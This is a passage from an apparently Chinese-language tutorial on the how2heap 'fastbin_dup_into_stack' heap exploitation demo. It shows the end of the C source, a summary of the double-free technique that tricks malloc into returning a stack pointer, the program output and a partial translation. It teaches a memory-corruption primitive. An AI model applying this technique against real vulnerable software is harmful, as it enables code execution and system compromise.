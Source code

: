 ```
	fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```
漏洞概述：主要是利用double free来构造一个假的堆块头，把指向下一个空闲块(free list)改成栈地址，这样就可以分配到一个栈地址，并可以往栈上写内容。

运行结果：
```
This file extends on fastbin_dup.c by tricking malloc into
returning a pointer to a controlled location (in this case, the stack).
The address we want malloc() to return is 0x7ffe46d526a0.
Allocating 3 buffers.
1st malloc(8): 0x11a8010
2nd malloc(8): 0x11a8030
3rd malloc(8): 0x11a8050
Freeing the first one...
If we free 0x11a8010 again, things will crash because 0x11a8010 is at the top of the free list.
So, instead, we'll free 0x11a8030.
Now, we can free 0x11a8010 again, since it's not the head of the free list.
Now the free list has [ 0x11a8010, 0x11a8030, 0x11a8010 ]. We'll now carry out our attack by modifying data at 0x11a8010.
1st malloc(8): 0x11a8010
2nd malloc(8): 0x11a8030
Now the free list has [ 0x11a8010 ].
Now, we have access to 0x11a8010 while it remains at the head of the free list.
so now we are writing a fake free size (in this case, 0x20) to the stack,
so that malloc will think there is a free chunk there and agree to
return a pointer to it.
Now, we overwrite the first 8 bytes of the data at 0x11a8010 to point right before the 0x20.
3rd malloc(8): 0x11a8010, putting the stack address on the free list
4th malloc(8): 0x7ffe46d526a0
```
运行结果翻译：
```
这个程序更具体地展示了上一个程序所介绍的技巧,通过欺骗malloc来返回一个我们可控的区域的指针(在这个例子中,我们可以返回一个栈指针)

我们想要malloc返回的地址是这个 0x7ffef0f6a078.

首先分配三块内存:

1st malloc(8): 0x220f420
2nd malloc(8): 0x220f440
3rd malloc(8): 0x220f460
free掉第一块内存…

和上一个程序一样,我们再free第一块内存是不行的,所以我们free第二块.

free 0x220f440

现在我们可以free第一块了.

当前的free-list是这样的 [ 0x220f420, 0x220f440, 0x220f420 ]

我们将通过在第一块内存 0x220f420 上构造数据来进行攻击.

先把链表上前两个地址malloc出来.

1st malloc(8): 0x220f420
2nd malloc(8): 0x220f440
现在的free-list上面就只剩下了[ 0x220f420 ]
```